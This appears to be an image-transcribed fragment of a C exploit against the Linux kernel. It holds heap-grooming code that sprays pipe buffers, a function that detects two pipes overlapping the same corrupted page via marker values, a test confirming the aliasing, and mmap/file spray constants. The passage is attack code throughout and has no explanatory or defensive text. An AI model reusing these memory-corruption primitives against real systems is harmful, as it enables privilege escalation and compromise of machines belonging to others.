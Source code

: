 ```c
      if (running == slab_cnt) {
        for (int j = 0; j < 8 && (i + j + 1 - last) % 8 != 0; ++j) {
          alloc_4k_pipe_at(i + j + 1);
          ++pipe_cnt;
        }
        finded = 1;
        break;
      }
    }
  }
  return finded ? 0 : -1;
}

size_t victim_pipe_fds[2];
int find_overlapped_pipes() {
  char buf[0x20];
  uint64_t *uint64_buf = (uint64_t *)buf;
  for (size_t i = 0; i < pipe_cnt; ++i) {
    read(pipe_fds[i][0], buf, 0x10);
    int is_ok = (memcmp(buf, "UNIGURI@", 8) == 0 &&
                 (uint64_buf[1] >> 32) == 0xdeadbeef);
    int is_corrupted = (uint64_buf[1] == 0xdeadbeef00000000 + i);
    if (is_ok && !is_corrupted) {
      victim_pipe_fds[0] = i;
      victim_pipe_fds[1] = uint64_buf[1] & 0xffffffff;
      return 0;
    }
    if (!is_ok) {
      return -1;
    }
  }

  return -1;
}

int test_overlapped_pipes() {
  char tmp[0x100];
  memset(tmp, 0, sizeof(tmp));
  const char *test_str = "UNIGURI!";
  const size_t test_str_len = strlen(test_str);
  printf("    [*] Test msg(len=0x%lx): \"%s\"\n", test_str_len, test_str);

  write(pipe_fds[victim_pipe_fds[1]][1], tmp, test_str_len);

  strncpy(tmp, test_str, sizeof(tmp));
  printf("    [*] Write \"%s\" to pipe@%lx\n", tmp, victim_pipe_fds[0]);
  write(pipe_fds[victim_pipe_fds[0]][1], tmp, test_str_len);

  memset(tmp, 0, sizeof(tmp));
  read(pipe_fds[victim_pipe_fds[1]][0], tmp, test_str_len);
  printf("    [*] Read \"%s\" from pipe@%lx\n", tmp, victim_pipe_fds[1]);

  const int successed = !memcmp(test_str, tmp, test_str_len) ? 0 : -1;
  read(pipe_fds[victim_pipe_fds[0]][0], tmp, test_str_len);
  return successed;
}

#define MMAP_SPRAY_COUNT 0x1000UL
#define FILE_SPRAY_COUNT (MMAP_SPRAY_COUNT / 0x10)
void *mmap_addrs[MMAP_SPRAY_COUNT];
#define MMAP_SPRAT_START_ADDR 0xcafe0000UL
#define MMAP_PAGE_SIZE 0x1000UL
#define MMAP_SPRAT_STEP 0x10000UL
```